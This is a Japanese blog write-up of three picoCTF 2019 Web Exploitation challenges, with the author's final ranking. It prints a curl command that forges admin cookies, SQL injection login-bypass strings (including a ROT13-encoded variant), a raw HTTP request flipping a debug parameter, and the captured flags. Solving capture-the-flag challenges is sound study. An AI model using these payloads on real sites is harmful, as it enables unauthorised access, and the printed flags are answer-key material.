```yaml
---
title: "picoCTF 2019 Writeup (Web Exploitation) | フラxxグゲット"
date: 2019-10-13T12:00:00+09:00
lastmod: 2019-10-13T12:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

URL: [https://2019game.picoctf.com/](https://2019game.picoctf.com/)
<br /><br />
2週間、お疲れ様です。

<br /><br />
最終結果は、こんな感じ。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Score.png" alt="pico2019_Score.png">

<br />
イベント終了時点で、ユーザは4万人弱でした。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Users.png" alt="pico2019_Users.png">

<img src="https://captureamerica.github.io/writeups/img/pico2019_Rank.png" alt="pico2019_Rank.png">

PwnとWeb系があんまりできてないけど、スコアも切りのいい20000に行ったし、Globalで目標の300位以内 (283位) にも入れたのでかなり満足です。

去年出た問題に似てるものも結構あったので、picoCTF 2018をそれなりにやった人は結構アドバンテージがあったと思います。



<br /><br />
Web Exploitation の Writeupです。




<br /><br />
## [Web Exploitation]: Open-to-admins (200 points)
- - -
### Challenge
> This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. https://2019shell1.picoctf.com/problem/32249/ (link) or http://2019shell1.picoctf.com:32249
<br /><br />
Hints : Can cookies help you to get the flag?<br />

<br />
### Solution
```
curl -k -H 'Cookie: admin=True; time=1400'  https://2019shell1.picoctf.com/problem/32249/flag
```


Flag: `picoCTF{0p3n_t0_adm1n5_cc661e91}`



<br /><br />
<br /><br />
## [Web Exploitation]: Irish-Name-Repo 2 (350 points)
- - -
### Challenge
> There is a website running at https://2019shell1.picoctf.com/problem/60775/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:60775
<br /><br />
Hints : The password is being filtered.

<br />
### Solution
picoCTF 2018のVaultと同じ問題です。

デバッグを見ようとして、以下を入れたら、Flag取れちゃった。
```
username
' /*

password
*/ or 3=3 -- &debug=1
```

Flag: `picoCTF{m0R3_SQL_plz_015815e2}`




<br /><br />
<br /><br />
## [Web Exploitation]: Irish-Name-Repo 3 (400 points)
- - -
### Challenge
> There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!
<br /><br />
Hints : Seems like the password is encrypted.


<br />
### Solution
Burpでやったらdebug変数が見えたので、1に変えてみました。

```
POST /problem/12271/login.php HTTP/1.1
Host: 2019shell1.picoctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close
Referer: https://2019shell1.picoctf.com/problem/12271/login.html
Upgrade-Insecure-Requests: 1

password=admin&debug=1
```

```
password: admin
SQL query: SELECT * FROM admin where password = 'nqzva'
```

'nqzva' は、'admin' のRot13ですね。

<br />
いつものこの子を、
```
' or 1=1 --
```

Rot13して以下のようにします。
```
' be 1=1 --
```

Flag: `picoCTF{3v3n_m0r3_SQL_ef7eac2f}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

